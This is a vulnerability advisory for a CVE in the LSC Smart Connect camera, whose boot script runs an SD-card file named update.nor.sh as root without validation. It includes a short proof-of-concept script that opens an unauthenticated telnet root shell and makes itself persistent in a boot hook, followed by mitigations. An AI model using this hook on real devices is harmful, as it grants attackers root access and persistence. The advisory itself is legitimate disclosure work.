


# CVE-2025-65817: LSC Smart Connect Camera SD-Card Update Hook

This report documents a vulnerability in the LSC Smart Connect camera update flow that allows arbitrary script execution as root during boot.

## Overview

The startup script `local/sbin/start_app.sh` blindly trusts a file named `update.nor.sh` on the SD card. If present, it is copied to `/tmp`, marked executable, and executed as root early in the boot sequence before `ipc_service` starts.

## Root Cause

In `start_app.sh`, the SD-card update hook is used without any validation:

```sh
# routines of sd-card
# /mnt is for backword compatible
SDC_DIR=/mnt
SDC_HOOK=$SDC_DIR/update.nor.sh
SDC_FLAG_DEBUG=$SDC_DIR/__ipc_debug.ini
TMP_HOOK=/tmp/update.nor.sh
SENSOR_ISP_HOOK=$SDC_DIR/ISP/*t23.bin
# debug core-dump
WHERE_COREDMP="/mnt/sdc/coredmp"
WHERE_EXEC="/usr/local/bin/doraemon"
```

The script mounts the SD card, copies `update.nor.sh` to `/tmp/update.nor.sh`, and executes it as root without validating contents, integrity, or ownership.

## Impact

An attacker with SD-card access can execute arbitrary commands as root on boot. This can be used to:

- spawn a remote shell (for example via `telnetd`),
- modify boot hooks for persistence,
- tamper with firmware or configuration.

## Proof of Concept

Create a script on the SD card named `update.nor.sh`:

```sh
#!/bin/sh

telnetd -l /bin/sh -p 2323 &
echo "Telnet start by update.nor.sh" > /tmp/exploit_success
cp /mnt/update.nor.sh /mnt/config/hook-boot.sh
date > /tmp/exploit_time
```

On boot, the telnet port is open:



Then connect to the target:



## Mitigations

- Validate and sign `update.nor.sh` before execution.
- Restrict SD-card hook execution to a recovery mode.
- Drop privileges before running user-provided hooks.

